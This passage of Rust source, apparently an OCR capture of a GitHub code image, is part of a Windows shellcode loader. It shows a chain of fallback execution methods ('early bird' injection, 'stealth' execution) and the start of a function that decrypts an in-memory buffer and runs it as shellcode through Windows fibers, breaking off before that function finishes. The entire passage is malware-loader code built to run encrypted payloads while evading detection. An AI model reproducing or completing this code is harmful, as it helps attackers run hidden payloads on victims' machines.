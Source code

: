 ```rust
                        Ok(_) => {
                        },
                        Err(_) => {
                            // Final fallback to original methods if fibers fail
                            match execute_via_early_bird_injection(code_data) {
                                Ok(_) => {
                                },
                                Err(_) => {
                                    match execute_code_stealth(&mut encrypted_memory) {
                                        Ok(_) => {},
                                        Err(_) => {}
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
    
    Ok(())
}

// Simplified direct fiber execution function that uses the Fiber struct
#[cfg(target_os = "windows")]
unsafe fn execute_code_with_direct_fiber(encrypted_memory: &mut EncryptedMemory) -> Result<(), Box<dyn Error>> {
    use std::{ffi::c_void, ptr::null};
    use windows_sys::Win32::{
        Foundation::GetLastError,
        System::Threading::{
            ConvertFiberToThread, ConvertThreadToFiber, CreateFiber, DeleteFiber,
            SwitchToFiber, LPFIBER_START_ROUTINE
        }
    };
    
    struct Fiber {
        shellcode_fiber_address: *mut c_void,
        primary_fiber_address: *mut c_void
    }
    
    impl Drop for Fiber {
        fn drop(&mut self) {
            unsafe {
                if !self.shellcode_fiber_address.is_null() {
                    DeleteFiber(self.shellcode_fiber_address);
                }
                if !self.primary_fiber_address.is_null() {
                    ConvertFiberToThread();
                }
            }
        }
    }
    
    let code = encrypted_memory.get_decrypted_data();
    let size = code.len();
    
    // Validate code size
    if size == 0 {
        return Err("Empty code".into());
    }
    
```